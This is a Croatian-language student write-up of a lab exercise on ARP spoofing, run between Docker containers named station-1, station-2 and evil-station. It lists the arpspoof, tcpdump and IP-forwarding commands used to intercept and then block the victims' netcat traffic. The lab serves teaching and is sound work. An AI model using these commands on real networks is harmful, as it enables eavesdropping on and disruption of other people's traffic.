 # ARP SPOOFING

U okviru prve vježbe analizirali smo ranjivost ARP-koja napadaču omogućava izvođenje ***man in the middle*** i ***denial of service*** napada na računalima koja dijele zajedničku lokalnu mrežu(LAN).

Napad je testiran koristeći 3 virtualizirana Docker računala: dvije žrtve station-1 i station-2 te napadač evil-station.

Budući da je vježba rađena na računalu sa Windows operacijskim sustavom, prvi zadatak bilo je pokretanje Ubuntu terminala koristeći WSL (Windows Subsystem for Linux).

Pozicioniravši se u odgovarajući direktorij, klonirani smo GitHub repozitorij sa potrebnim sadržajem.

```bash
git clone [https://github.com/mcagalj/SRP-2021-22](https://github.com/mcagalj/SRP-2021-22)
```

Potom smo bili upoznati sa skriptama koje su zadužene za pokretanje i zaustavljanje docker kontejnera.

**Pokretanje**

```bash
$ ./start.sh
```

**Zaustavljanje**

```bash
$ ./stop.sh
```

Idući korak bilo je pokretanje interaktivnog shella u station-1 kontejneru te provjera njegove konfiguracije mrežnog interface-a.

**Pokretanje shella station-1**

```bash
$ docker exec -it station-1 bash
```

**Provjera konfiguracije mrežnog interface-a**

```bash
$ ifconfig -a
```

Dobivši podatke o stationu-1, provjerili smo nalazi li se station-2 na istoj mreži kao i station-1 te smo pokrenuli interaktivni shell i za drugi kontejner.

**Provjera mreže**

```bash
$ ping station-2
```

**Pokretanje shella station-2**

```bash
$ docker exec -it station-2 bash
```

Koristeći **netcat,** ostavirili smo konekciju između station-1 i station-2 kontejnera. ****

**Station-1 → server na portu 9000**

```bash
$ netcat -lp 9000
```

**Station 2 → client na hostname-u station-1 9000**

```bash
$ netcat station-1 9000
```

# Napad

Bilo je potrebno pokrenuti interaktivni shell u evil-station kontejneru te pokrenuti arpspoof i tcpdump.

**Pokretanje shella evil-station**

```bash
$ docker exec -it evil-station bash
```

**Arpspoof**

```bash
$ arpspoof -t station-1 station-2
```

**Tcpdump**

```bash
$ tcpdump
```

Tcpdump nam je omogućio praćenje prometa. Posljednja naredba koju smo pozvali bila je ona kojom smo u potpunosti spriječili promet između stationa-1 i stationa-2.

```bash
echo 0 > /proc/sys/net/ipv4/ip_forward
```

# Zaključak

- Uspješnom ARP spoofing napadu prethodi narušavanje integriteta
- Netcat nije enkriptiran način komunikacije budući da smo uspješno vidjeli čitav sadržaj